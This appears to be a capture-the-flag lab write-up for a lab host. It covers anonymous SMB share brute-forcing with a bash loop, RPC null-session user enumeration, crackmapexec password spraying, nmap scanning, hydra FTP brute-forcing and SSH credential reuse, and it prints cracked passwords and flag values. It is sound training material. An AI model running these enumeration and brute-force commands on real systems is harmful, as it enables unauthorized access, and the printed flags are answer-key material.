

## Tasks



## Flag 1

> _There is a samba share that allows anonymous access. Wonder what's in there!_

A wordlist-based script is used to brute-force share names via anonymous SMB access:

```bash
#!/bin/bash

shares=$(cat /root/Desktop/wordlists/shares.txt)

for i in $shares; do
        echo $i
        smbclient -N //target.ine.local/$i
done
```

```
chmod +x script.sh
./script.sh
```

The share `pubfiles` accepts an anonymous connection:

```
pubfiles
Try "help" to get a list of possible commands.
smb: \> ls
  flag1.txt    N    40    Fri May 29 13:40:34 2026

smb: \> more flag1.txt
FLAG1{05b7f336205444d0b51d3188f928fc73}
```

---
## Flag 2

> _One of the samba users have a bad password. Their private share with the same name as their username is at risk!_

Users are enumerated via a null session RPC bind:

```
rpcclient -U "" target.ine.local
rpcclient $> enumdomusers
user:[josh] rid:[0x3e8]
user:[nancy] rid:[0x3ea]
user:[bob]  rid:[0x3e9]
```

Password spraying against the discovered users:

```
crackmapexec smb target.ine.local -u josh -p /root/Desktop/wordlists/unix_passwords.txt | grep -v FAILURE
```

```
[+] ine.local\josh:purple
```

Connecting to Josh's private share:

```
smbclient //target.ine.local/josh -U josh --password=purple
smb: \> more flag2.txt
FLAG2{3ddfb26d4b4f4f5d9b064f1f3083fbdf}

Psst! I heard there is an FTP service running. Find it and check the banner.
```

---
## Flag 3

> _Follow the hint given in the previous flag to uncover this one._

A full port scan reveals FTP running on a non-standard port:

```
nmap -p- -sV target.ine.local
```

```
5554/tcp open  ftp  vsftpd 2.0.8 or later
```

Connecting anonymously to read the banner:

```
ftp -a target.ine.local -p 5554
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda
    to change their weak passwords immediately!!!
```

The banner leaks three usernames. Brute-forcing `alice`:

```
hydra -l alice -P /root/Desktop/wordlists/unix_passwords.txt target.ine.local ftp -s 5554
```

```
[5554][ftp] host: target.ine.local   login: alice   password: pretty
```

```
ftp alice@target.ine.local -P 5554
ftp> more flag3.txt
FLAG3{e8aae3e3242d4541a43da4685c0591c8}
```

---
## Flag 4

> _This is a warning meant to deter unauthorized users from logging in._

SSH login as `alice` (password reused from Flag 3) displays the banner before the password prompt:

```
ssh alice@target.ine.local
```

```
********************************************************************
*            WARNING: Unauthorized access to this system           *
*            is strictly prohibited and may be subject to          *
*            criminal prosecution.                                 *
*                                                                  *
*    Is this what you're looking for?: FLAG4{a49f31c158444405bfb06cc68176fc49}    *
********************************************************************
```

The flag is embedded in the SSH login banner (`/etc/issue.net`).

---
## Summary

|#|Technique|Flag|
|---|---|---|
|1|Anonymous SMB share enumeration|`FLAG1{05b7f336205444d0b51d3188f928fc73}`|
|2|RPC null session + password spray|`FLAG2{3ddfb26d4b4f4f5d9b064f1f3083fbdf}`|
|3|Non-standard FTP + banner leak|`FLAG3{e8aae3e3242d4541a43da4685c0591c8}`|
|4|SSH MOTD banner disclosure|`FLAG4{a49f31c158444405bfb06cc68176fc49}`|